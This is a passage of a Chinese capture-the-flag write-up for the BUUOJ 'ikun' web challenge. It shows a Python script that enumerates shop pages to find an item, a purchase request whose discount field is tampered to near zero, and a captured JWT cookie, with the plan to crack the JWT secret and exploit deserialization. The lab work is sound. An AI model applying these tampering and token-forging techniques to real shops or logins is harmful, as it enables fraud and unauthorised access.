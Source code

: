 ```plain
漏洞环境：https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web2]ikun

思路：通过提示->寻找LV6->购买修改支付逻辑->绕过admin限制需修改jwt值->爆破jwt密匙->重组jwt值成为admin->购买进入会员中心->源码找到文件压缩源码->Python代码审计反序列化->构造读取flag代码进行序列化打印->提交获取
考点1：JWT 身份验证 攻击点：
https://www.cnblogs.com/vege/p/14468030.html
https://github.com/ck00004/c-jwt-cracker
考点2：Python 代码审计 反序列化：
自动工具：https://github.com/PyCQA/bandit
参考资料：https://github.com/bit4woo/python_sec

打开页面，发现有很多lv4 lv3 查看图片地址/static/img/lv/lv4.png和/static/img/lv/lv3.png，根据推测，lv6一定是/static/img/lv/lv6.png地址。
```

![1647939585028-5a749b7b-d052-4f16-a2af-78d38b89b406.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132841581-1134518712.png)

```plain
写一个python脚本
1、获取LV6
import requests
for i in range(1,1000):
    url='http://119.45.216.198:8083/shop?page='+str(i)
    result=requests.get(url).content
    try:
        if 'lv6.png' in result.decode('utf-8'):
            print('->'+url+'|yes')
            break
        else:
            print('->' + url + '|no')
    except Exception as e:
        pass
```

![1647939819741-cea91de1-087c-4c60-9c1b-dd2b5c457eea.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132841898-2062151851.png)

```plain
在181页中已经停止，所以打开181页，发现了lv6
注册一个账户，然后登录
点击购买，发现有优惠价-20%
点击购买，抓取数据包：
```

![1647940166473-dcba65e2-7255-450d-9ea2-eddb52688bb8.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132841762-782525052.png)

```plain
发现数据包中的值：_xsrf=2%7C5a1f6b7f%7C11cda87164c732d87b83fec367068026%7C1647940092&id=1624&price=1145141919.0&discount=0.8
discount好像是打折的意思，那么修改数据包，
_xsrf=2%7C5a1f6b7f%7C11cda87164c732d87b83fec367068026%7C1647940092&id=1624&price=1145141919.0&discount=0.00000000000000000000000000000008，让他尝试构造

放出去后，发现：该页面，只允许admin访问
所以应该是有身份验证的，session，cookie，jwt等等

抓取数据包发现cookie中的数据：
Cookie: _xsrf=2|7eb73d2c|3565fe22406f648b5f2ba89043aed675|1647940092; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InhpYW9kaXNlIn0.sp8rXrjACzFQKgQyqaLGvVLCNEYFe6bjYn-M-1PGGnc; commodity_id="2|1:0|10:1647940471|12:commodity_id|8:MTYyNA==|45d9de5c12a60baf2394781a3526daf777245d9d95cb2c2fb4a37e9c0cb87231"

JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InhpYW9kaXNlIn0.sp8rXrjACzFQKgQyqaLGvVLCNEYFe6bjYn-M-1PGGnc

```